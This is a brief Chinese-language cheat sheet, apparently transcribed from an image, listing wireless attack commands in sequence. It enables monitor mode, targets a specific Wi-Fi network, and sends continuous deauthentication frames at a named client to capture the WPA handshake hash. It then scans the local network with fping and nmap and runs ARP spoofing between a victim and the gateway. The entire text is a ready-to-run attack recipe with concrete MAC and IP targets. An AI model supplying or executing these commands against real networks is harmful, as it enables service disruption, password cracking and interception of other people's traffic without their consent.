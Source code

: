 iw list 查看网卡信息看是否支持监听模式（）Supported interface modes: #支持的接口模式

lsusb查看所有的usb设备

airmon-ng start wlan0 启动网卡的监听模式

airodump-ng wlan0mon 检测附近的wifi

airodump-ng -c 11 --bssid C8:3A:35:00:27:40 -w Tenda_002740 wlan0mon 监听指定网络下的设备连接

aireplay-ng -0 0 -a C8:3A:35:00:27:40 -c9c:e8:2b:f7:37:33 wlan0mon 对之指定wifi下的设备攻击获取哈希握手包

fping -g -r 0 -s 192.168.0/24 查看局域内存活的设备

nmap -O -T4 192.168.0.107 扫描设备详细信息

arpspoof -i  wlan0mon -t 192.168.0.10 192.168.0.1 arp欺骗




